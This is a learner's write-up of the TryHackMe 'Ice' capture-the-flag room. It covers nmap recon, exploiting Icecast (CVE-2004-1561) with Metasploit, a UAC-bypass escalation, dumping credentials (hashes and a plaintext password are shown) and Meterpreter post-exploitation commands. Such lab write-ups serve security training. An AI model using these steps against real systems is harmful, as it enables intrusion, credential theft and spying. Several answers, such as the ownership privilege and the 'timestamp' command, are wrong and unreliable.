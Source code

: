 # TryHackMe - Ice

## 🛠 Setup

Set an environment variable for the IP to simplify commands:

```bash
export IP=10.10.229.244
```

## 📌 Task 2: Recon

### 🔍 Nmap Scan

**Using all ports takes forever**
```bash
nmap -sS -p- $IP
```

**Results:**
```
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  tcpwrapped
5357/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
8000/tcp  open  http         Icecast streaming media server
|_http-title: Site doesn't have a title (text/html).
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC

Host script results:
|_clock-skew: mean: 1h40m01s, deviation: 2h53m12s, median: 0s
|_nbstat: NetBIOS name: DARK-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02:20:c4:25:26:e0 (unknown)
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Dark-PC
|   NetBIOS computer name: DARK-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-06-22T07:53:10-05:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-06-22T12:53:10
|_  start_date: 2025-06-22T12:51:12
```

**Q. What port is MSDRP open on?
A. 3389

**Q. What service did nmap identify as running on port 8000? (First word of this service)
A. Icecast2

```bash
telnet $IP 8000
```

**Q. What does Nmap identify as the hostname of the machine? (All caps for the answer)
A. Dark-PC


## 📌 Task 3: Gain Access

https://www.cvedetails.com/cve/CVE-2004-1561/

**Q. What is the Impact Score for this vulnerability?
A. 6.4


**Q. What is the CVE number for this vulnerability?
A. CVE-2004-1561


**Q. What is the full path (starting with exploit) for the exploitation module?
A. exploit/windows/http/icecast_header

**Q. What is the only required setting which currently is blank?
A. RHOSTS


## 📌 Task 4: Escalate

**Q. What's the name of the shell we have now?
A.meterpreter

**Q. What user was running that Icecast process?
A. (PS) 


**Q. What build of Windows is the system?
A. (sysinfo) 7601

**Q. what is the architecture of the process we're running?
A. x64

**Q. What is the full path (starting with exploit/) for the first returned exploit?
A. exploit/windows/local/bypassuac_eventvwr

```
run post/multi/recon/local_exploit_suggester
```

The first exploit didn't submit. Second one did!


**Q. What is the name of the wrong option?
A. LHOST

**Q. What permission listed allows us to take ownership of files?
A. SeIncreaseWorkingSetPriv

```getprivs
```

**Session 1 Results**
```
SeChangeNotifyPrivilege
SeIncreaseWorkingSetPrivilege
SeShutdownPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

```
**Session 2 Results**
```
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTimeZonePrivilege
SeUndockPrivilege
```

## 📌 Task 5: Looting


**Q. What is the printer spool servicxs called
A. spoolsv.exe

**Q. What user is listed?
A. NT AUTHORITY\SYSTEM

**Q. Which command allows up to retrieve all credentials?
A. creds_all

**Q. What is Dark's password?
A. Password01

```
creds_all
```

**Results**
```
Username  Domain   LM                       NTLM                     SHA1
--------  ------   --                       ----                     ----
Dark      Dark-PC  e52cac67419a9a22ecb0836  7c4fe5eada682714a036e39  0d082c4b4f2aeafb67fd0ea
                   9099ed302                378362bab                568a997e9d3ebc0eb

wdigest credentials
===================

Username  Domain     Password
--------  ------     --------
(null)    (null)     (null)
DARK-PC$  WORKGROUP  (null)
Dark      Dark-PC    Password01!

tspkg credentials
=================

Username  Domain   Password
--------  ------   --------
Dark      Dark-PC  Password01!

kerberos credentials
====================

Username  Domain     Password
--------  ------     --------
(null)    (null)     (null)
Dark      Dark-PC    Password01!
dark-pc$  WORKGROUP  (null)
```


## 📌 Task 6: Post Exploitation


**Q. What command allows us to dump all of the password hashes stored on the system?
A. hashdump

**Q. what command allows us to watch the remote user's desktop in real time?
A. screenshares

**Q. How about if we wanted to record from a microphone attached to the system?
A. record_mic

**Q. What command allows us to do this? 
A. timestamp

**Q. What command allows us to do this?
A. golden_ticket_create


## 📌 Task 7: Extra Credit


** New room called blaster! Maybe I'll check it out. Not using metasploit is not a big deal, I've done that before **
